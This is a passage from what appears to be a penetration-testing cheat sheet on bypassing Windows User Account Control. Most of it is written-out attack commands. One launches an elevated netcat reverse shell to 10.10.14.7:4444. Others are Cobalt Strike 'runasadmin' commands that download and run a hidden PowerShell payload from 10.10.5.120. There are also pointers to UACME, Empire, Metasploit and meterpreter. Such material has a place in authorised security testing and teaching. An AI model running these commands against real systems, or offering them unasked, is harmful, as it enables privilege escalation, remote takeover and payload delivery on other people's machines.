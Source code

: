 ```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC bypass with token duplication

* [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
* [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

#### UAC bypass with cobalt strike

The Cobalt Strike techniques will only work if UAC is not set at it's max security level

```bash
# UAC bypass via token duplication
elevate uac-token-duplication [listener_name]
# UAC bypass via service
elevate svc-exe [listener_name]

# Bypass UAC with Token Duplication
runasadmin uac-token-duplication powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
# Bypass UAC with CMSTPLUA COM interface
runasadmin uac-cmstplua powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/b'))"
```

#### UAC bypass exploits

You could also use some tools to **bypass UAC like** [**UACME** ](https://github.com/hfiref0x/UACME)which is a **compilation** of several UAC bypass exploits. Note that you will need to **compile UACME using visual studio or msbuild**. The compilation will create several executables (like\_Source\Akagi\outout\x64\Debug\Akagi.exe\_) , you will need to know **which one you need.**\
You should **be careful** because some bypasses will **prompt some other programs** that will **alert** the **user** that something is happening.

**Empire** and **Metasploit** also have several modules to **bypass** the **UAC**.

#### More UAC bypass

**All** the techniques used here to bypass AUC **require** a **full interactive shell** with the victim (a common nc.exe shell is not enough).

You can get using a **meterpreter** session. Migrate to a **process** that has the **Session** value equals to **1**:

![](<../.gitbook/assets/image (96).png>)
